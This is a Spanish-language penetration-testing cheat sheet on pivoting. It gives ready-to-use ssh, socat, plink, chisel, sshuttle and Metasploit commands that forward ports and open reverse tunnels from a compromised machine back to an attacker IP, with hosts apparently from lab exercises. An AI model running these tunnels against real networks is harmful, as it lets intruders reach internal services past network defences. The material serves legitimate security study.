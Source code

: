 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

metasploit

```
portfwd -l 8081 -p9090 -r 127.0.0.1
```

ssh

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
```

socat

```
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
socat TCP-LISTEN:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

------------

## Remote PortForwarding

ssh

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
ssh -R 4646:127.0.0.1:80 noroot@192.168.0.107 -o UserKnownHostFile=/dev/null -o StrictHostKeyChecking=no
```

plink.exe

```
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

Usando Chisel

```
chisel server -p <port_server> --reverse (como usuario root )
chisel.exe client <ip_attack>:<port_server> R:<port_atack>:ip_local:<port_local> (windows)
chisel.exe client 192.168.0.107:8000 R:4445:127.0.0.01:445
```

-----------

# Tunneling

sshutle

```
sshutle -r noroot@192.168.0.107 10.200.100.200
```

chisel

```
chisel server -p 8000 --reverse
chisel client 192.168.0.105:8000 R:5000:10.200.100.200:80
```

plink

```
plink.exe -L 7000:ready.htb:5000 noroot@192.168.0.105
plink -L <port_local>metasplotable2:<port_pivot> root@kali
```

metasploit

```
run  autoroute -s 172.16.50.0/24
```

---------

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.  
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
